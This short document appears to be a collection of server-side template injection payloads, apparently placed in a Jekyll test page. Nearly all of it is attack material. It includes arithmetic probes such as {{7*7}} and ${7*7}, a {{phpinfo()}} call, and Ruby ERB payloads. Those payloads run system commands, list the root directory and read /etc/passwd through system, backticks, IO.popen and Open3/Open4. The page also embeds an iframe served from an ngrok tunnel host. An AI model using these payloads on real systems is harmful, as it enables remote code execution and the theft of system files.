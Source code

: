 ```yaml
---
title: Testing
---
```


```
{% capture greeting %}
  Hello, world!
{% endcapture %}

{{ greeting }}
```

<iframe src="https://c827-198-167-192-61.eu.ngrok.io/iframe.html"></iframe>


```
200,{{phpinfo()}}
```


```
200,{{7*7}}
```

```
<%= 7*7 %>
```

```
${7*7}
```

```
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file
<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```

